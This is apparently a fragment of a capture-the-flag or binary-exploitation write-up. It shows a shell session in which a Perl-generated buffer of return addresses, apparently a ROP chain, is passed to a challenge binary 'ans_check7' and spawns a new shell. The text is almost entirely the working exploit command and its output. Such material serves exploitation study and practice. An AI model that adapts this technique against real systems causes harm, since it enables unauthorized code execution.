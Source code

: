 Successfully obtained the shell:
```bash
$ echo $$
1950
$ ./ans_check7 $(perl -e 'print
"\x90"x2, "\x10\x91\x04\x08"x13,
"\xf0\x90\x04\x08\xf2\x93\x04\x08\x41\xc0\x04\x08\x51\xa0\x04\x08",
"\xf0\x90\x04\x08\xf2\x93\x04\x08\x42\xc0\x04\x08\x52\xa0\x04\x08",
"\xf0\x90\x04\x08\xf2\x93\x04\x08\x43\xc0\x04\x08\x53\xa0\x04\x08",
"\xf0\x90\x04\x08\xf2\x93\x04\x08\x44\xc0\x04\x08\x54\xa0\x04\x08",
"\xf0\x90\x04\x08\xf2\x93\x04\x08\x45\xc0\x04\x08\x51\xa0\x04\x08",
"\xf0\x90\x04\x08\xf2\x93\x04\x08\x46\xc0\x04\x08\x52\xa0\x04\x08",
"\xf0\x90\x04\x08\xf2\x93\x04\x08\x47\xc0\x04\x08\x57\xa0\x04\x08",
"\xf0\x90\x04\x08\xf2\x93\x04\x08\x48\xc0\x04\x08\x13\xa0\x04\x08",
"\xf0\x90\x04\x08\xf2\x93\x04\x08\x49\xc0\x04\x08\x29\xa0\x04\x08",
"\xf0\x90\x04\x08\xf2\x93\x04\x08\x4a\xc0\x04\x08\x50\xa0\x04\x08",
"\x10\x91\x04\x08", "\xee\x92\x04\x08", "\x41\xc0\x04\x08"')
$ echo $$
1962
```